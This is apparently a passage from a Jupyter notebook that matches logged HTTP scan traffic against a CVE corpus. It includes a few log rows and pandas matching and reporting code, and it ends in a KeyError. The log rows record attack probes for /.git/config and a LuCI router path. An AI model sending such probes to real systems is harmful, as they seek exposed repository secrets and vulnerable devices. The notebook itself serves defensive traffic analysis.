28,http,scan,Qq_b0JkBpMzovo26a-bO#0,GET,301,/cgi-bin/luci/;stok=/locale,NaN,NaN,NaN,NaN,...,2025-10-10T23:53:05.155013071Z,176.65.141.86,214967.0,"Optibounce, LLC",Germany,18.102.206.99,16509,AMAZON-02,Italy,"[CVE-2023-52163, CVE-2020-12124, CVE-2019-1216..."
29,http,attempt,3q_b0JkBpMzovo26a-bO#0,GET,301,/.git/config,NaN,['*/*'],"['gzip, deflate']",['Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/...,...,2025-10-10T21:28:01.72598717Z,170.64.189.167,14061.0,DIGITALOCEAN-ASN,Australia,16.50.238.72,16509,AMAZON-02,Australia,"[CVE-2025-47782, CVE-2025-47782]"
30,https,attempt,36_b0JkBpMzovo26a-bO#0,GET,301,/.git/config,NaN,['*/*'],"['gzip, deflate']",['Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/...,...,2025-10-10T21:28:01.755221457Z,170.64.189.167,14061.0,DIGITALOCEAN-ASN,Australia,16.50.238.72,16509,AMAZON-02,Australia,"[CVE-2025-47782, CVE-2025-47782]"


In [ ]:
import pandas as pd
import re

# --- CONFIGURATION ---
MIN_TOKEN_HITS = 2  # Required token overlap for a weak match

# --- 1. DATA LOADING (Adjust paths as needed) ---
try:
    cve_df = pd.read_csv("../data/cve_corpus.csv")
    drift_df = pd.read_csv("../data/daily/http_day_2025-10-10.csv")
except FileNotFoundError as e:
    print(f"Error: {e}. Please ensure file paths are correct.")
    # Stop execution if files aren't found on the user's machine
    exit()

# --- 2. TOKEN EXTRACTION FUNCTION (Same as before) ---
def extract_tokens(s):
    """Tokenizes a string (URI, Body, or CVE signature) for matching."""
    s = str(s).lower()
    # Replace non-standard characters with space to separate tokens
    s = re.sub(r'[^a-z0-9/_\-\.\%]', ' ', s)
    # Split by common delimiters and filter for meaningful tokens
    return [t for t in re.split(r'[\/\?\=\&\.\-]', s) if t and len(t) > 2]

# --- 3. FIX: GENERATE MISSING 'tokens' COLUMN FOR CVE CORPUS ---
# Normalize Path and Request fields
cve_df['path'] = cve_df['path'].astype(str).str.strip()
cve_df['request'] = cve_df['request'].astype(str).str.strip()

# Combine path and request fields into a single string for comprehensive tokenization
cve_df['full_signature'] = cve_df['path'] + " " + cve_df['request']

# Apply the token extractor to create the required 'tokens' column
cve_df['tokens'] = cve_df['full_signature'].apply(extract_tokens)

# --- 4. DATA PREPROCESSING & NORMALIZATION (Drift Day) ---
drift_df['http_uri'] = drift_df['http_uri'].astype(str).str.strip()
drift_df['http_body'] = drift_df['http_body'].fillna('').astype(str).str.strip()
drift_df['category'] = drift_df['category'].astype(str)


# --- 5. ENHANCED MATCHING FUNCTION ---
def match_request_against_cve(uri, body, cve_df, min_token_hits=MIN_TOKEN_HITS):
    """Matches a single request's URI and Body against the CVE corpus."""
    uri_low = uri.lower()
    body_low = body.lower()
    
    # Create a unified token set from the request (URI + Body)
    request_tokens = set(extract_tokens(uri_low)).union(set(extract_tokens(body_low)))
    
    matches = []

    for idx, row in cve_df.iterrows():
        # Accessing tokens column is now safe
        cve_tokens = set(row['tokens']) 
        cve_path_low = row['path'].lower()
        cve_request_low = row['request'].lower()

        # 1) Strong Match: Direct substring in URI OR Body
        if (cve_path_low != 'nan' and cve_path_low in uri_low) or (cve_request_low != 'nan' and cve_request_low in body_low):
            matches.append(row['cve_ids'])
            continue

        # 2) Weak Match: Token Overlap
        overlap = request_tokens.intersection(cve_tokens)
        if len(overlap) >= min_token_hits:
            matches.append(row['cve_ids'])

    return list(set(matches))

# --- 6. RUN MATCHING ON THE ENTIRE DRIFT WINDOW ---
# NOTE: The CVE data frame cve_df is passed implicitly as it's modified in the global scope
drift_df['cve_hits'] = drift_df.apply(
    lambda row: match_request_against_cve(
        row['http_uri'],
        row['http_body'],
        cve_df # Pass the now-complete CVE DataFrame
    ),
    axis=1
)

# Keep only rows with matches
matched_requests = drift_df[drift_df['cve_hits'].apply(len) > 0]

# --- 7. CONSOLIDATED REPORTING (Actionable Output) ---
if len(matched_requests) > 0:
    print(f"Total matched requests on 2025-10-10: {len(matched_requests)}\n")
    print("--- CVE Hits Grouped by Attack Category ---")

    cve_report = matched_requests.explode('cve_hits').groupby(['category', 'cve_hits']).size().reset_index(name='count')
    
    # Pivot for clean summary
    pivot_report = cve_report.pivot_table(
        index='cve_hits', 
        columns='category', 
        values='count', 
        fill_value=0, 
        aggfunc='sum'
    )

    pivot_report['Total Hits'] = pivot_report.sum(axis=1)
    pivot_report = pivot_report.sort_values(by='Total Hits', ascending=False)
    
    print(pivot_report.to_markdown(numalign="left", stralign="left"))

    # --- 8. EXPORT TO CSV (Re-exporting with fixed data) ---
    matched_requests_filename = "matched_cve_requests_2025-10-10.csv"
    pivot_report_filename = "cve_summary_report_2025-10-10.csv"

    matched_requests.drop_duplicates().to_csv(matched_requests_filename, index=False)
    pivot_report.to_csv(pivot_report_filename, index=True)

    print(f"\nSuccessfully generated and exported: {matched_requests_filename} and {pivot_report_filename}")

else:
    print("No CVE matches found in the drift-day traffic.")

KeyError: 'tokens'